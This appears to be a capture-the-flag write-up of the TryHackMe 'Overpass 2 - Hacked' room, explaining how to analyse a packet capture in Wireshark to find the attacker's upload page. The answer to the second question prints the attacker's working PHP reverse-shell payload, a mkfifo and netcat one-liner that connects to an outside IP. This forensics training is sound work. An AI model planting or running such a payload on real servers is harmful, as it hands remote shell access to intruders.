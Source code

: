 # TryHackMe Room: Overpass 2 - Hacked

Link: [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)

## WriteUp

### Task 1  Forensics - Analyse the PCAP
## Overview

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing [CC: Pentesting](https://tryhackme.com/room/ccpentesting) and [Learn Linux](https://tryhackme.com/room/zthlinux) as a bare minimum.  

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

## Analysis 

First Download the Capture file from TryHackme Overpass 2 room there you will see the button named `Download Task File`  download it and after you download it open **Wireshark** that are preinstalled in kali linux open it.When wireshark is open go to File menu in Toolbar there you will see the option name `Open` or you can just press `Ctrl + O` there you will prompt to open a file so open the file that you Download from tryhackme.

When you open the file then you will see all the packets that are capture during the attack so now let's start analysis 

Q1: What was the URL of the page they used to upload a reverse shell?
```
First we have to filter our packets to http As there is so many packets there so we have to filter it so go to filter bar you can see this after the Toolbar and there write HTTP and press enter so then you will see all the packets that are related to http protocol

When your result is filter locate the packet that are use to upload a file name "upload.php" you can see this in the info tab of the packets so there you will find the url the attacker use to get the reverse shell.Attacker use POST method to that link to Upload its Payload to the server
````
A: /development/

Q2: What payload did the attacker use to gain access?
Hint: Include the PHP tags. Whole file content.
```
So Now we know which vulnerable area attack use to upload a reverse shell payload on the server. The attacker use upload.php function to upload a file name payload.php that contain some malicious php code that give the attacker a reverse shell so we can see the content/data of that packet to identify what that payload do to the system.

As we focus on the packet number 14 that are the packet contain upload.php function so you just have to see the data of that packet and you can see this to the bottom tab of the wireshark click on the packet all the packet data were shown in that tab scroll down to the content and focus on it and there you will see the php code inside that packet just copy that packet
```
A: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`
